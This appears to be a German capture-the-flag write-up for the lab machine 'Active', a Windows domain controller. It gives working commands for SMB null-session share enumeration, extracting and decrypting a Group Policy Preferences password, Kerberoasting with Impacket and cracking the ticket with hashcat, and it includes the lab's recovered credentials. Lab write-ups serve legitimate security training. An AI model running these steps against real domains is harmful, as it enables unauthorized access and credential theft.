






#writeup/provider-box

Erstellt am 2024-07-27
Autor
## Box Info 

| OS      | Typ | Schwierigkeit |
| ------- | --- | ------------- |
| :SiWindows: | Box | Einfach       |

```
name:   active
adress: 
```

---

## Enumeration

Mit `nmap` werden alle offenen Ports enumeriert:



Die Ergebnisse lassen darauf schließen, dass es sich bei dem Ziel um einen Domänen Controller handelt. Einschlägige Ports sind unter Anderem: 53 DNS, 88 Kerberos, 389 LDAP. Zusätzlich ist noch Port 445 (SMB) offen.

Zum Auflisten der Shares ohne bekannten Zugang kann bei SMBv1 eine NULL-Session verwendet werden. `smbmap` versucht dies automatisch wenn weder Benutzername noch Passwort übermittelt werden. 

#beispiel/smbmap/null-session

```bash
smbmap -d active.htb -H 10.10.10.100 -r
```



Die Auflistung aller Shares zeigt lesende Zugriffsrechte für `Replication` mit etwas Glück handelt es sich hierbei um die Replikation der Domäne oder des Domänen Controllers.  Mit `smbclient` kann der Share exfiltriert werden:

```bash
smbclient -U 'active.htb/%' -N //10.10.10.100/Replication
>mask""
>recurse
>prompt
>mget *
```

Mit `grep -r "active.htb\" .`  können die Dateien schnell nach Keywords durchsucht werden.

In der Datei `active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml` wird ein Service Account referenziert. 

`active.htb\SVC_TGS:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

Da es sich um eine Replikation handelt ist kommt vermutlich GPP-basierte Verschlüsselung zum Einsatz. Kali kommt im Default mit dem Tool `gpp-decrypt`, welches die Entschlüsselung übernehmen kann.

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```



<details>
<summary>Spoiler warning</summary>
active.htb\SVC_TGS:GPPstillStandingStrong2k18
</details>

## Foothold

Mit der bekannten Benutzerkennung und dem dazugehörigen Passwort können erneut die Shares aufgelistet werden. Der Benutzer ist Berechtigt auf das `Users` Verzeichnis zuzugreifen.

```bash
smbclient -U 'active.htb\SVC_TGS' --password=GPPstillStandingStrong2k18 //10.10.10.100/Users
```

Im Homeverzeichnis des Benutzers liegt die Userflag.



## Privesc

Um die Berechtigungen weiter zu eskalieren, lohnt es sich nach kerberostable SPNs zu suchen. Die Impacket-Suite bietet ein entsprechendes Tool an. Benötigt wird lediglich ein valider Domänen Account.

#beispiel/kerberoastable-spn

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```



Um das erlange Administrator Ticket zu cracken kann `hashcat` benutzt werden.

```bash
hashcat admin.ticket -a 0 /usr/share/wordlists/rockyou.txt
```

Zusammen mit dem Passwort kann die rootflag über SMB erlangt werden.



---

## Todo's

- [x] active User Flag ➕ 2024-07-27 ✅ 2024-08-10
- [x] active Root Flag ➕ 2024-07-27 ✅ 2024-08-10
- [x] active pwnd ➕ 2024-07-27 ✅ 2024-08-10